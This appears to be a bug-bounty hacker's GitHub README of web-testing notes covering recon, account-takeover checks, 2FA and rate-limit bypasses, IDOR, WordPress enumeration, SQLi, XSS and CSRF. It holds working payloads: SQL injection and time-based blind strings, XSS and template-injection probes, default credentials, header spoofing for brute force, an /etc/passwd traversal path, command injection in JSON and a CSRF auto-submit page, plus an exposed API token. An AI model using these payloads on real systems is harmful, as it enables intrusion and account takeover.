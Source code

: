 <details>
 <summary> Subdomain enumeration </summary>
    
     https://securitytrails.com/
    
    https://subdomainfinder.c99.nl/
    
    https://shrewdeye.app/ 
    
    
    # subfinder -d ~~mars.com~~ -all --recursive  -o subs.txt
  
    
   
    # echo ~~mars.com~~ | assetfinder --subs-only >> subs.txt
    
    
    after collecting all subdomains in subs.txt then let's remove duplicate 
    # cat subs.txt | anew >> allsubs.txt
    # rm subs.txt
</details>

-----------------------------------------------------------------------------

<details> 
## <summary>signup vulnerabilities</summary>
    
    0- check in login page or register page http or https 
    (insecure data transfer ) 
    
    1- if there is no verification code or confirmation then 
    signup with admin@~~site.com~~ and report pre-account takeover vulnerability 
    
    2- a- create account with hacker@gmail.com for example 
    	 b- confirmation will reach you 
    	 c- don't click on it 
    	 d- login to your account and change the email to victim@gmail.com 
    	 e- go back the link in step b and click on it 
    	 f- if the victim@gmail.com was verified successfully then 
    	 (misconfiguration lead to verification bypass  vulnerability) 
    
    3- while registertion put xss payloads inside username , name ....
    
    4- create account with victim@gmail.com 
    	- don't verify the account and don't click on verification link 
    	- login to the site if you can 
    	- go to settings and see if there is 2 factor authentication 
    	- enable 2 factor authentication without confirming account 
    	- report vulenrability (enable 2fa without confirmaiton lead to pre-account tkaeover)
    
    5- create account with victim@gmail.com ,  don't click on the link
    	- login to victim@gmail.com 
    	- change the email address to hacker@gmail.com 
    	- click on confimation link send to your email hacker@gmail.com 
    	- go back and change email to victim@gmail.com and observe it was verified succcessfully
    	(verification bypass )
    	 
</details>

-----------------------------------------------------------------------------


<details>
## <summary>login vulnerabilities </summary>

    ```
	 1- login over http not https 	( insecure data transfer )
	
	 3- try default credentials (test:test) (admin:admin) (admin:password) (kali:kali) (admin:123)
	  (admin:default) (root:root) (root:toor) (admin:kali) (kali:root) (admin:123456789)
	
	 4- try to inject sql injection in username as admin' or 1=1; -- -
	
	 5- try to make response manipulation  to bypass login page
	
	 6- use the request and send it to sqlmap to test if there is sql injection or not
	
	 7- try to inject xss payloads in username as <svg/onload=confirm()>
	
	 8- try to inject template injection inside username as {{9*9}} and if printed 81 then vulnerable to template injection
	
	 9- view source code of the page from CTRL+U to see if leaked credentials

 </details>

-----------------------------------------------------------------------------



  <details>
## <summary>reset password vulnerabilities</summary>
    
    ```
    check link of reset password in email if http not https
    check reset request code can be leaked in request or response
    no rate limit (Email bombing)
    ------------------------------------
    1- ask reset password (from out) don’t press on it ⇒ 
    2- login to account ⇒ change the email and verify ⇒ click on reset link
    3- if password changed through reset password link (bug)
     -----------------------------------
    1- ask reset password (from out) don’t press on it ⇒
    2- login to account ⇒ change the password ⇒
    3- click on reset link ⇒ if password changed through reset password link (bug)
    --------------------------------------
    1- reset the password or ask for reset code  
    2- don't click or reload the page but go to /profile or /account
     directly and see if you can access
     -------------------------------------
     brute force otp 
     --------------------------------------
     reset password does not end live sessions 
     
     
    ```
</details>

-----------------------------------------------------------------------------


<details>
## <summary>session vulnerabilities</summary>
  	
	
	1- login to your account with firefox and chrome
		- change the password in firefox 
		- observe the account in chrome is still logged in and didn't logout
		- Broken session Management 
	
	2- login to your account with firefox and chrome 
		- enable 2FA in firefox 
		- reload the page in chrome and observe session is still valid 
	
	3- login to your account and update anything 
		-  intercept the request with burpsuite 
		- send the request to repeater
		- logout from your account 
		- use the request in repater to update and if still valid  (vulnerability)
	
	4- ask for reset password 
		- don't click on the link reached you 
		- login with your username and password 
		- change the password of the email 
		- logout from your account and then use the link in step 1 
		- if still valid then (Vulnerability)
	
	5-logout from your account 
		- click on (Alt+Left-arrow) button or <--
		- observe the session and profile data is still found 
		- broken cache vulnerability
	
	6- when updating email address 
		- check if OTP is sent to existing email not the new email 
		- broken function lead to verification bypass
	
	7- create account with email A => victim 
		- update the email to B => hacker then verify it -> vierfy your account 
		- update email back to A => victim 
		- if shown as verified then vulnerability 
	
	8- verifiaction bypass 
		- account with victim@gmail.com => don't verify it 
		- update account email to hacker@gmail.com
		- once you clicked the link , if verified victim@gmail.com then vuln  
	
</details>

-----------------------------------------------------------------------------


<details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- 

 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------


<details>
## <summary>Javascript Analysis</summary>
    
    1- use mantra to get api , passwords , keys ...
     cat js.txt | mantra  | tee -a mantra.txt
    2- use nuclei to search for secrets 
     nuclei -l js.txt -t nuclei-templates/http/exposures/ -o nucleijs.txt
    
    if found google api key then use tool google.sh  and see if api valid or not
    google.sh AIz.............

	
 	- wayback
	- gospider
	- katana
	=> allurls.txt
	
	1- Use Mantra => for api keys
	
	2- Use jsluice => for secrets and urls =>  jsluice urls player.js
						     jsluice secrets player.js
	 for i in $(ls);do jsluice secrets $i;done
	
	3- Use nuclei  => nuclei-tempates/http/exposures/
	 nuclei -l js.txt -t /root/nuclei-templates/http/exposures/ -mhe 4
	4- analyze the code with js beaty in visual studio code 


</details>

-----------------------------------------------------------------------------


<details>
	<summary>PHP</summary>
</details>

-----------------------------------------------------------------------------


<details>
	<summary>2FA</summary>
			
		1- check 000000 - 123456
		2- check null 
		3- reuse previous OTP	(used one )
		4- reuse code of another account (valid)
		5- No rate limit on 2FA	=>> 
		6- check if exposed code in response
		7- bypass it by reset password link
			- enable 2fa 
			-  logout 
			- reset password => then click on the link 
			- if you got into directly then vulnerability 
		
		8- bypass it by 0-auth google 	=> 2fa 
			1- login 
			2- enable 2fa 
			3- login with google => if you got into directly then (vulnerability) 
		
		9- No rate limit on sending 2FA 
		10- response manipulation => 403 Forbidden => 200 OK 
						false 	=> true
						0	=> 1
						failed 	=> successful 
		11- bypass 2fa by the next step 
		
		12- enable 2fa without email verification lead to pre-account takeover
		13- enabling 2fa does not end another sessions 
		change password 
	
</details>

-----------------------------------------------------------------------------



<details>
<summary>  Subdomain takeover </summary>
    
    # subzy run --targets subs.txt --hide_fails --vuln  | grep -v -E "Akamai|xyz|available|\-"
    if you found any vulnerability then search on how to takeover subdomain 
</details>
    
-----------------------------------------------------------------------------


  <details>       
## <summary>httpx</summary>
    
    to see the working sites 
    # cat allsubs.txt | httpx -o httpx.txt
    # cat httpx.txt | httpx -mc 200 -o httpx200.txt    
    1- use smuggler to check request smuggling vulnerablitiy 
    # cat httpx.txt | smuggler.py | tee -a smuggler.txt
</details>

-----------------------------------------------------------------------------


<details>
## <summary>dirsearch and ffuf</summary>
    
    1- if you need to fuzz all the file of urls httpx.txt
    # dirsearch -l $(pwd)/httpx.txt -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    2- if you need to fuzz specific site 
    # dirsearch -u ~~https://mars.com~~  -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    3- you can use ffuf and wordlist of file names from google 
    # ffuf -u ~~https://mars.com~~/FUZZ -w ~~wordlist.txt~~  -mc 200 
    
    advanced mode of ffuf to bypass rate limit and firewall
    # ffuf -u ~~https://mars.com~~/FUZZ -w wordlist.txt -H "X-Forwarded-For: 127.0.0.1"
    -H "X-Forwarded-Host: 127.0.0.1" 
    
    to fuzz in two places with two files 
    # ffuf -u https://mars.com/FUZZ/AGAIN  -w list1.txt:FUZZ  -w list2.txt:AGAIN
</details>

-----------------------------------------------------------------------------


<details>
## <summary>Gather urls</summary>
    
    1- gather urls with katana
    # katana -list httpx.txt -o katana.txt
    2- gather urls with waybackurls
    # cat httpx.txt | waybackurls >> wayback.txt
    3-  use gospider 
    # gospider -S httpx.txt | sed -n 's/.*\(https:\/\/[^ ]*\)]*.*/\1/p' >> gospider.txt
    4- gather all files in one file and remove duplicate 
    # cat katana.txt wayback.txt gospider.txt >> urls.txt
    5- remove duplicate with anew 
    # cat urls.txt | anew >> allurls.txt 
    # rm urls.txt
    6- get javascript files in js.txt
    # cat allurls.txt | grep -E "\.js" >> js.txt
    7- get php files in php.txt
    # cat allurls.txt | grep -E "\.php$" >> php.txt
 </details>   
    	

-----------------------------------------------------------------------------



<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 
	
	
	
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	poc: 
		 <html>
		  <body>
		    <form action="https://redacted.com/profile/edit” method="POST">
		      <input type="hidden" name=“first_”name value=“Attacker” />
		    </form>
		    <script>
		      document.forms[0].submit();
		    </script>
		  </body>
		</html>

	=================================================
 	
  	1- Remove the token and leave the parameter empty
  	2- Try use another user CSRF token
   	3- Change the request method to get and remove the token
    	4- Add Ayhaga to the real CSRF token 
     	5- Dynamic chars in CSRF token manipulate
	6- try delete referrer
 	7- Referrer: https://target.com/https://evil.com
  	8- 

       

 
</details>



